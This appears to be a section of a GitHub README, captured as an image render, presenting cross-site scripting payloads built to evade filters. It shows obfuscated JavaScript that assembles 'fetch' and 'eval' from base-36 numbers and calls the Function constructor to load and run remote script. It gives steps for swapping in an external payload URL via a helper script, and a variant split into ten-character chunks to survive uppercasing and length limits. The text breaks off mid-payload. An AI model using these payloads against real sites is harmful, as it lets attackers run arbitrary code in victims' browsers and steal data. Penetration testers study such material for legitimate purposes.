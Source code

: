 ```
+27[N](36) // "r"
+"=>"
+27[N](36) // "r"
+"."
+1372385[N](36) // "text"
+"()."
+1375583[N](36) // "then"
+"("
+693741[N](36) // "eval"
+"))";
(X[C](J))(); // X[C] is Array.prototype.fill["constructor"],
             // i.e. Function.prototype. It creates an
             // anonymous function with J as the body, which
             // is then executed
```

**How to modify it:**

Replace the encoded payload above, in `(X[C](`**_encoded payload_**`))()`, with the output from:

```
python2 fetch_helpers.py -x '//myown/external/js' -e num_to_string --toString N
```

**Note:** You can give it an arbitrary payload using the `-p` option. See `python2 fetch_helpers.py --help` for more options.

##### Usecase: payload is being capitalized, character limit &gt;= 10
* *Works with arbitrary payloads*
* *No additional wrapping needed*
* *`<script>` must not be blocked*
* *Payloads order on page __does__ matter.*

Payload is the same as the one above. Split here to 10 characters for completeness.

**TO DO:** Encoder in `fetch_helpers.py` to split this to arbitrary length.

```
<SCRIPT>/*
*/T=!0/*
*/+[];/*
*/F=!1/*
*/+[];/*
*/I=1/0/*
*/+[];/*
*/X=/*
*/F[0]+/*
*/I[3]+/*
*/F[2]+/*
*/F[2];/*
*/X=[]/*
*/[X];/*
*/Y=/*
*/X+[];/*
*/C=/*
*/Y[3]+/*
*/Y[6]+/*
*/Y[7]+/*
*/F[3]+/*
*/T[0]+/*
*/T[1]+/*
*/T[2]+/*
*/Y[3]+/*
*/Y[4]+/*
*/Y[6]+/*
*/T[1];/*
```